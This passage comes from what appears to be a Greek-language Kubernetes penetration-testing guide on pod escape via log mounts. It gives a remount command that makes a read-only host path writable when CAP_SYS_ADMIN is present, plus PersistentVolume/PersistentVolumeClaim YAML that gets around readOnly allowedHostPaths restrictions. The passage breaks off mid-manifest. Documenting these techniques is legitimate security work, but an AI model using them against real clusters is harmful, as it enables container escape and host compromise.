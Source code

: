 ```bash
[...]
```
**Ένα εργαστήριο και αυτοματοποιημένη εκμετάλλευση μπορεί να βρεθεί στο** [**https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts**](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts)

#### Παράκαμψη προστασίας readOnly <a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-readonly-protection"></a>

Αν είστε αρκετά τυχεροί και η πολύ προνομιακή δυνατότητα `CAP_SYS_ADMIN` είναι διαθέσιμη, μπορείτε απλά να ξανατοποθετήσετε τον φάκελο ως rw:
```bash
mount -o rw,remount /hostlogs/
```
#### Bypassing hostPath readOnly protection <a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-readonly-protection"></a>

Όπως αναφέρεται σε [**αυτή την έρευνα**](https://jackleadford.github.io/containers/2020/03/06/pvpost.html), είναι δυνατόν να παρακαμφθεί η προστασία:
```yaml
allowedHostPaths:
- pathPrefix: "/foo"
readOnly: true
```
Που είχε σκοπό να αποτρέψει τις διαφυγές όπως οι προηγούμενες, χρησιμοποιώντας αντί για hostPath mount, ένα PersistentVolume και ένα PersistentVolumeClaim για να τοποθετήσει έναν φάκελο του host στο κοντέινερ με δικαιώματα εγγραφής:
```yaml
apiVersion: v1
kind: PersistentVolume
metadata:
name: task-pv-volume-vol
labels:
type: local
spec:
storageClassName: manual
capacity:
storage: 10Gi
accessModes:
- ReadWriteOnce
hostPath:
path: "/var/log"
---
apiVersion: v1
kind: PersistentVolumeClaim
metadata:
name: task-pv-claim-vol
spec:
storageClassName: manual
accessModes:
- ReadWriteOnce
resources:
requests:
storage: 3Gi
---
apiVersion: v1
kind: Pod
metadata:
name: task-pv-pod
spec:
volumes:
- name: task-pv-storage-vol
```